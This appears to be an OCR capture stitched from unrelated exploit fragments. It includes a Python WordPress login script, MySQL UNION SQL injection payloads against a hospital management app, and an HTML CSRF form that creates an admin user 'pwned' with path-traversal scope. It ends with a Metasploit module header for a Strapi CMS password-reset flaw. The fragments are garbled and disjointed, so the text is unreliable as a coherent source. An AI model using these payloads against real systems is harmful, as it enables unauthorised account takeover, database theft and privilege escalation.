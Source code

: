     post_data={ 'log':username, 'pwd':password,
               'wp-submit':'Log In','redirect_to':wp_path,
               'testcookie':'1'
                   } 
    
    s.post(login, headers=headers, data=post_data)
    resp = s.get(wp_path)

    out_file = open("output.txt", "w")
    print(resp.text, file=out_file)
    out_file.close()
    print(color_random[4]+resp.text)
    out = color_random[5]+"\n[+] Output Saved as: output.txt\n"
    print(out)
Type: UNION query
Title: MySQL UNION query (random number) - 1 column
Payload: email=riiVAqjG@https://github.com/kishan0725/Hospital-Management-System'+(select-2730)
Type: UNION query
Title: MySQL UNION query (random number) - 1 column
Payload: username3=CHnDaCTc'+(select-3282) UNION ALL SELECT
<form action="http://127.0.0.1:8080/api/users" method="POST" enctype="text/plain" name="exploit">

  

  <input type="hidden" name='{"what":"user","which":[],"data":{"scope":"../../../../root/","locale":"en","viewMode":"mosaic","singleClick":false,"sorting":{"by":"","asc":false},"perm":{"admin":true,"execute":true,"create":true,"rename":true,"modify":true,"delete":true,"share":true,"download":true},"commands":[],"hideDotfiles":false,"username":"pwned","password":"","rules":[{"allow":true,"path":"../","regex":false,"regexp":{"raw":""}}],"lockPassword":false,"id":0,"password":"pwned"}}' value='test'>

</form>
  'Name'           => "Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)",
  'Description'    => %q{
    This exploit module abuses the mishandling of password reset in JSON for Strapi CMS version 3.0.0-beta.17.4 to change the password of a privileged user.
  },
  'License'        => MSF_LICENSE,
  'Author'         => [ 'WackyH4cker' ],
  'References'     =>
    [
      [ 'URL', 'https://vulners.com/cve/CVE-2019-18818' ]
    ],
  'Platform'       => 'linux',
  'Targets'        => [
    [ 'Strapi 3.0.0-beta-17.4', {} ]
  ],
  'Payload'        => '',
  'Privileged'     => true,
  'DisclosureDate' => "",
  'DefaultOptions' =>
    {
      'SSL' => 'False',
      'RPORT' => 80,
    },
  'DefaultTarget'  => 0
